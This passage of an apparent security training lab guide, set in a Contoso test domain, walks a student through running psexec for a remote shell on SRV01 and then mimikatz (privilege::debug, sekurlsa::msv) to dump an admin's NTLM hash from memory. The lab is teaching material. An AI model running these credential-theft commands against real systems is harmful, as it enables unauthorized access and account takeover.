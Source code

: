     >[!help] The password will not show in the prompt. Once you have clicked on the ![image](.\IMG\ntw2poa5.jpg) in front of the password, hit the Enter key to validate the input. 

1. [] To avoid confusion, you are going to change the color of that new prompt. Make sure you have the cmd.exe (running as connie.flores@contoso.com) open and in focus, then run `color 4F & title Connie CMD`
    This is what your window with Connie.Flores should look like: ![image](.\IMG\REDC2.png)
    Note that not only we changed the color, but we also have given the window a new title **Connie CMD**.

    We are going to run credential theft tools on **SRV01**. 

1. [] In from the **Connie CMD** window, run the following command `cd \Tools\PStools` then run `psexec.exe \\SRV01 cmd.exe -accepteula`

    ⌚ The might take a little while (about30 seconds).

    Note that the title of the console is now **\\\SRV01: cmd.exe**

1. [] Run the following command `hostname`. It will tell you to which system you are connected.

    Let's list the connected users.

1. [] Run the following command `query user`.

    📝 What is the SESSIONNAME of Vickie Fergusson's admin account?

    Let's extract Vickie's NT Hash.

1. [] Still from the **\\\SRV01: cmd.exe** window, run the following command `cd \Tools\mimikatz` then run `mimikatz.exe`.

1. [] In the **mimikatz #** prompt, take the seDebugPrivilege to be able to read the memory: `privilege::debug` then run the following command to extract the NT hashes from the memory: `sekurlsa::msv`. Scroll up until the see the following:
![image](.\IMG\MIMI1.png)
Vickey's hash is displayed in the **NTLM** proprety.
